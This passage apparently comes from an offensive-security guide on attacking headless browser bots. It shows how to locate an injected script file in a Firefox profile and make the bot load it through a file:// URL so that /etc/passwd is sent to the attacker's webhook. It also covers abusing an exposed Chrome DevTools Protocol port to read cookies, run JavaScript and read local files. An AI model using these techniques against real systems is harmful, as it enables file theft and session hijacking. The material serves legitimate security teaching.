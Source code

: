 <pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session">$ grep -r -F '&#x3C;script>' /tmp/firefox-userdata
<strong>/tmp/firefox-userdata/storage/default/http+++host.docker.internal+8000/idb/548905059db.files/1:  &#x3C;script>
</strong></code></pre>

You can now let the bot visit this path to exploit the vulnerability explained earlier, and receive the contents of `/etc/passwd` in your webhook (note the `+` characters might need to be URL-encoded).

{% code title="URL" overflow="wrap" %}
```
file:///tmp/firefox-userdata/storage/default/http+++host.docker.internal+8000/idb/548905059db.files/1
```
{% endcode %}

## Chrome DevTools Protocol (CDP)

The [Chrome DevTools Protocol](https://chromedevtools.github.io/devtools-protocol/) is for **Remote Debugging** and is a popular choice for automation libraries too. It listens on port 9222 by default to receive commands with which malicious websites can interact somewhat.

### Endpoints

When `google-chrome` is launched with remote debugging enabled, this is usually on port 9222. But it can be changed with the `--remote-debugging-port=` argument when it is started.&#x20;

When this port is accessible, you can connect to it with the [DevTools HTTP Protocol](https://chromedevtools.github.io/devtools-protocol/#endpoints) in order to make the browser do certain things. You can debug the currently viewed site, meaning reading any data, like HTML, cookies, or other stored data, and execute JavaScript in the console. As well as being able to browse to and **read arbitrary files** on the system.&#x20;

Get a list of sessions by requesting `/json` endpoint:

{% code title="http://localhost:9222/json" %}
```json
[ {
  "description": "",
  "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:9222/devtools/page/DAB7FB6187B554E10B0BD18821265734",
  "id": "DAB7FB6187B554E10B0BD18821265734",
  "title": "Yahoo",
  "type": "page",
  "url": "https://www.yahoo.com/",
  "webSocketDebuggerUrl": "ws://localhost:9222/devtools/page/DAB7FB6187B554E10B0BD18821265734"
} ]
```
{% endcode %}

You can then visit the `devtoolsFrontendUrl` in your browser (if `--remote-allow-origins` explicitly allows it) to get a recognizable DevTools GUI that you would get when debugging any site. Here you can do anything DevTools would be able to, like executing JavaScript, reading storage, and browsing the site.
